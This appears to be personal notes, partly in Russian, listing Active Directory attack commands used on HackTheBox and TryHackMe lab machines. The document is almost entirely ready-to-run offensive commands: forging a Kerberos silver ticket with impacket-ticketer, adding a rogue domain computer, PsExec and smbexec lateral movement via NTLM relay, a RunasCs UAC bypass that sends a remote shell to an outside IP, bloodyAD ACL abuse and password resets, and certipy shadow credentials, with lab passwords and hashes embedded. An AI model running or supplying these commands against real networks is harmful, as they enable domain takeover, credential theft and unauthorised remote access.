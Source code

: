 проверка

	dir \\thmserver1.za.tryhackme.loc\c$\
      
    
      В ЛИНУКС
      		SID domain -->	(whoami /all)

  		крафтим silver тикет from administrator--->
  
		impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn nonexistent/DC.SEQUEL.HTB Administrator

  		идем к службе ---->
    
		export KRB5CCNAME=Administrator.ccache;impacket-mssqlclient -k dc.sequel.htb
 

# Добавление компутера в домен

		impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -method LDAPS -computer-name 'Evil-PC' -computer-pass 'Password123'

 * PSEXEC ПО БЕЛЕТУ PSExec.exe -accepteula \\sql01.inlanefreight.local cmd
* smbexec xthtp ntlmrelay  proxychains4 -q smbexec.py INLANEFREIGHT/PETER@172.16.117.50 -no-pass

# RunAsCS

.\RunasCs backup IZtLVsqMDMENsTTekNwKwHGrFpmANUFgxOwvHREm --bypass-uac --logon-type 8 cmd.exe -r 10.10.14.49:445

#ACL ( Net rpc and bloodyad and certypy

net rpc group addmem "SERVICEMGMT" "OOREND" -U "REBOUND.HTB/OOREND" -S "REBOUND.HTB" 		(Добавить пользователя в группу)

или 

https://github.com/CravateRouge/bloodyAD?tab=readme-ov-file

python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt  


./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add groupMember ServiceMgmt oorend		((Добавить пользователя в группу))

net rpc group members "ServiceMGMT"  -U "rebound.htb"/"oorend"%'1GR8t@$$4u' -S "dc01.REBOUND.HTB"		(проверка членов группы)

./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB'  oorend		(Generic all - добавить себя в OU )

./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  set password winrm_svc 'Password123!' 		(смена пароля при наличии прав)

 certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb		(shadow credential)
 